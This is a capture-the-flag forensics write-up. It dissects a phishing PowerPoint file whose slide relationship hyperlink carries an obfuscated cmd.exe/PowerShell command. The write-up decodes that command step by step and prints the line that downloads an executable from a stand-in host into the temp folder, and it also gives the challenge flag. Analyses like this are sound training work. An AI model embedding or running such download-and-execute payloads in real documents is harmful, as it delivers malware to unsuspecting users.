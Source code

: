 # **Forensics**

## 0x00 AlienPhish
---
_We were given a Microsoft Powerpoint Presentation [file](/Alien%20Weaknesses.pptx) with **.pptx** extension._

### **Solution**
---
Basically, Microsoft fies with __.*x__ extension like **.docx**, **.pptx**, **.xlsx**, etc are compressed files, that means they can be opened with any zip archive software. 

A malicious code (generally in VBA) can be hidden inside these files.

>My first step was to open this ppt file using a zip archive. You can also use **_binwalk_** to extract the data if you are using any Linux based OS, but I will stick to *WinRar*.

![zip](images/S0.jpg)


As I see a lot of XML files, looking at rels files makes sense as to see the relationships.


>Opening slide1.xml.rels file gives us:
```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/><Relationship Id="rId4" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe" TargetMode="External"/></Relationships>
```

NOTE: I have only included the relevant XML code from it.
You can find the full file [here](resources/slide1.xml.rels).

>We can clearly see that it is trying to execute CMD commands. The command is url encoded, the decoded command is :

```cmd
cmd.exe /V:ON/C"set yM="o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$" c- llehsrewop&amp;&amp;for /L %X in (122;-1;0)do set kCX=!kCX!!yM:~%X,1!&amp;&amp;if %X leq 0 call %kCX:*kCX!=%""
```

>We can see `for /L%X in (122;-1;0)` reverses the string. We can use python to do the same.

```python
 x = "o$ eliftuo- exe.x/neila.htraeyortsed/:ptth rwi ;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'   pmet:vne$ = o$"
 print(x[::-1])
```

It gives `"$o = $env:temp   'Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99.exe'; iwr http:/destroyearth.alien/x.exe -outfile $o"`

Everything here makes sense except *some_random_string.exe*.

>Decoding it using online [base64 decoder](www.base64decode.org/) gives us the flag.

>**Flag:**
*CHTB{pH1sHiNg_w0_m4cr0s???}*
